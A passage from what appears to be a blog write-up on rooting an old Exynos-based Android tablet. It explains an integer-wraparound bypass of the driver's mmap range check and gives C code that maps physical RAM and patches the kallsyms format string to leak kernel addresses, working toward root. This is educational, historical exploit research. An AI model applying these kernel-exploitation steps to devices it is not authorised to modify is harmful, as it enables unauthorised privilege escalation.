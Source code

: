 Notice that the start and end addresses are checked indepentently, meaning that
as long as start is bigger than the region start and end is smaller than the
region end, the check succeeds. There are two ways to pass this check:

- have [start, end] range inside the region,
- set a size large enough that the end address wraps around the memory and
    becomes small.

Obviously the second way is unintended but it's very much possible to pull off.

{% include aligner.html images="/roots-in-the-past/mmap.svg" width=100 %}

Setting `start` to the last page (which is `0xfffff000`) and `size` big enough
should allow me to map the system ram. However, I made some mistakes in pointer
arithmetic ops and failed to get the exploit to succeed. The post [[2]] explains
that there is an exploit available in Framaroot for this case and its named
"Frodo", so I pulled one of the older versions of Framaroot and reverse
engineered the exploit. The steps after this point were all under the guidence
of Framaroot code.

{% include aligner.html images="/roots-in-the-past/frodo.png" width=80 %}

My final call looks like this:

```c
/* kernel reside at the start of physical memory, so take some Mb */
// This mmap fails because the driver is patched to control the maps.
// However, the patch is incomplete and allows an overflow to bypass the check.
paddr = (unsigned long *)mmap(NULL, 0x50000000UL, PROT_READ|PROT_WRITE, MAP_SHARED, fd, 0xfffff000UL);
if (paddr == MAP_FAILED) {
    printf("[!] Error mmap: %s|%08X\n",strerror(errno), i);
    exit(1);
}
printf("[*] mmap success at 0x%lx\n", paddr);
```

This time mmap succeeded and the system ram was waiting for me at
`paddr+0x40000000`.

### patching kallsyms

The known exploit strategy here is to patch `setresuid` syscall to allow getting
root as an unprivileged user. First step is to find the address of the code in
memory. `/proc/kallsyms` is the place to look; however the addresses listed
in the file are not disclosed to unprivileged users, therefore useless as-is.
Fortunately it is easy to patch. Simply find the format string `%pK %c %s` and
change it to `%p  %c %s` [[4]].

[4]: https://elixir.bootlin.com/linux/v3.0.40/source/lib/vsprintf.c#L848

```c
info("Looking for magic bytes...");
/*
 * search the format string "%pK %c %s\n" in memory
 * and replace "%pK" by "%p" to force display kernel
 * symbols pointer
 */
for(m = 0; m < length*4; m += 4) {
    if(*(unsigned long *)tmp == 0x204b7025 && *(unsigned long *)(tmp+1) == 0x25206325 && *(unsigned long *)(tmp+2) == 0x00000a73 ) {
        printf("[*] s_show->seq_printf format string found at: 0x%08X\n", PAGE_OFFSET + m);
        restore_ptr_fmt = tmp;
        *(unsigned long*)tmp = 0x20207025;
        found = true;
        break;
    }
    tmp++;
}

```

[github]: https://github.com/erfur/gm-etab4-root
[1]: https://web.archive.org/web/20221128194111/https://forum.xda-developers.com/t/root-security-root-exploit-on-exynos.2048511/
[CMA]: https://developer.toradex.com/linux-bsp/how-to/linux-features/contiguous-memory-allocator-cma-linux/
[2]: http://blog.azimuthsecurity.com/2013/02/re-visiting-exynos-memory-mapping-bug.html